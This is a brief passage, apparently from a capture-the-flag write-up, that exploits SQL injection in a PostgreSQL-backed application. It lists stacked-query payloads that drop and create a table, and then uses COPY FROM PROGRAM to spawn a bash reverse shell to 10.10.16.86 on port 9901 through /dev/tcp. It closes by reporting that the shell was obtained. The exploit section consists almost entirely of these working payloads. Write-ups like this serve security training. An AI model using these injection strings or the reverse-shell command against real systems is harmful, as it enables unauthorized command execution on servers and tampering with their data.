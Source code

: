 ![found injection point](14.png "found injection point")

## Exploit

- I found this article 
- [Authenticated Arbitrary Command Execution on PostgreSQL 9.3 > Latest](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)

- Let's try exploit it.
- by inserting this:
	- `';DROP TABLE IF EXISTS cmd_exec;--`
	- `';CREATE TABLE cmd_exec(cmd_output text);--`
	- `';COPY cmd_exec FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/10.10.16.86/9901 0>&1";'--`

## Reverse Shell

- Got the reverse shell
